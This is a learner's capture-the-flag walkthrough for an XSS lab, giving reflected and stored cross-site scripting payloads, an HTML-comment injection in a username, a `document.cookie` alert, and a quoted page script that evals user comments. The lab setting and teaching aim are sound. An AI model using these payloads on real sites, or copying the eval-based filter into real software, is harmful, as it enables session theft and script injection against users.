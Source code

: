 - Deploy the VM

	  no answer needed

- Navigate to `http://<TARGET_IP>/` in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".

	- `<script>document.alert('Hello!');</script>`
	- `****************************`

- On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.

	- `<script>document.alert(window.location.hostname);</script>`
	- `Reflecti**********in`

- Now navigate to http://10.10.136.11/ in your browser and click on the "Stored XSS" tab on the navbar; make an account.Then add a comment and see if you can insert some of your own HTML.

	- username: `ayogreenx <!--ciao-->`
	- password: whatever
	- Result: `You are currently signed in as <b>ayogreenx <!--ciao--></b>.`
	- Uh? NO wait ahaha.
	- Login
	- Click Stored Xss tab.
	- Add a comment. ahah.
	- `*********`

- On the same page, create an alert popup box appear on the page with your document cookies.

	- Found this on the page :)
	~~~
	      function fixJS(comment) {
        if(comment.includes('document.location')) { // stop from redirecting
          return
        }
        if(comment.includes("LVL2")) {
          alert(document.cookie)
        }
        if(comment.includes('<script>alert(')) {
          let tmp = comment.match(/alert(.*?)\)/g);
          tmp = tmp[0]
          tmp = tmp.replace('alert', '').replace('(', '').replace(')', '').replace(/"/g, '')
          alert(tmp)
        } else {
          try {
            let tmp = comment.replace('<script>', '').replace('<\/script>', '')
            eval(tmp)
          } catch(err) {

          }
        }
      }
	~~~
	- I don't know very well actually how I went forward. I did 2-3 tries with `LVL2` and others..(?)
	- `<script>alert(document.cookie)</script>`
	- `**************`
